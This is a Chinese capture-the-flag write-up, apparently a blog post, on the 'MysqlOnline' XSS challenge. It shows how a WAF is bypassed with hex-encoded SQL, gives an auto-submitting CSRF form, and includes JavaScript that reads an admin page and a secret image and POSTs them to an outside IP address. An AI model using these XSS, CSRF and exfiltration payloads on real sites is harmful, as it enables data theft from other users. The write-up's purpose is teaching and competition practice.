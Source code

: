 ```yaml
---
title: MysqlOnline writeup 巅峰极客
comments: true
date: 2018-07-23 21:00:10
tags:
	- writeup
	- xss
categories:
	- 信息安全
	- writeup
keywords: 
	- writeup
	- xss
	- 巅峰极客
---
```


又是一道xss...

> 在线mysql运行环境，欢迎大家使用，别弄坏了它呀。另外还有什么网页上的问题，欢迎您提交反馈。
>
> [http://106.75.35.230:9001](http://106.75.35.230:9001/?pass=null)


<!-- more -->

## 前期测试

分析题目，题目可以执行sql语句，此时存在执行后的回显

![mark](https://img.5am3.com/img/180723/9e0i9dKi4l.png)

结合下面的报告栏，疑似xss类题目，尝试输入<>,发现存在waf。在sql语句中，为绕过waf，通常会使用ascii码16进制编码，此时可以构造`<img>`的十六进制

```sql
select 0x3c696d673e
```

此时发现页面可以成功渲染出img标签。

找到xss点了，然后进行报告，一开始以为是留言可以直接写payload，但是尝试后发现不行。

仔细读题，发现他应该是会check url。

直接尝试写入自己监听的url `http://xxx.xx/xx`

![mark](https://img.5am3.com/img/180723/Cl0I1eIlmK.png)

可以发现他有一个后台。

```
http://127.0.0.1//admin_zzzz666.php
```

![mark](https://img.5am3.com/img/180723/EH987d13fc.png)

## 构造csrf

尝试访问后，发现只可以本地访问。

此时可以利用前面发现的xss，来构造csrf。

此时传入的参数，为我要引入的恶意js。



```
payload:<script src=//eval.com></script>
转化后：0x3c736372697074207372633d2f2f6576616c2e636f6d3e3c2f7363726970743e
```

所以可以构造以下页面进行csrf，提交该页面的链接，让admin访问，然后会提交表单，跳转到`http://127.0.0.1/runsql.php` 页面，成功在该页面实现xss。

```html
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>eval</title>
	<script src=http://127.0.01/static/js/jquery.min.js></script>
</head>
<body>
	<form id="a" action="http://127.0.0.1/runsql.php" method="post">
		<input type="text" name="sql" value="select 0x3c736372697074207372633d2f2f6576616c2e636f6d3e3c2f7363726970743e">
	</form>
	<script>
		$("#a").submit();
	</script>
</body>
</html>
```

此时将该文件上传到任意服务器或托管平台

csrf至此已经成功完成，接下来需要让其发挥最大效果。也就是我们修改eval.com的js代码。



## xss攻击代码



**读源码**

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//139.199.107.193:2210", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e)
}

 var iframe = document.createElement("iframe");
 iframe.src = "./admin_zzzz666.php";
 document.body.appendChild(iframe);
 iframe.onload = setInterval(function (){ 
 	var c = encodeURI(document.getElementsByTagName("iframe")[0].contentWindow.document.getElementsByTagName("body")[0].innerHTML);
 	send(btoa(c));
 },1000)
```

读取后发现和自己访问，唯一的不同是多了一张图片。

自己天真的以为还用刚刚的套路就可以读，然而发现想错了，这样只能读出来一个标签。

然后继续去搜索，如何读取图片，由于没有找到如何下载源文件。

最终发现canvas可以返回二进制流。

所以自己直接尝试渲染出来并返回图像了。

好在这道题flag就是图片，如果是隐写的话，可能又得费点劲。

**读图片**

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//139.199.107.193:2210", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e)
}
var ca =document.createElement("canvas")
ca.setAttribute('id', 'cv');
ca.width = '1500';
ca.height = '500'
document.body.appendChild(ca);

var cxt=ca.getContext("2d");
var img=new Image()
img.src="http://127.0.0.1/static/img/iamsecret_555.jpg"
img.onload = function(){
	cxt.drawImage(img,0,0)
	var data = ca.toDataURL();
	send(data);
}
```

成功拿到回显

![mark](https://img.5am3.com/img/180723/16lalbGkLm.png)

最后成功拿到flag

![mark](https://img.5am3.com/img/180723/Bi768CeAFB.png)



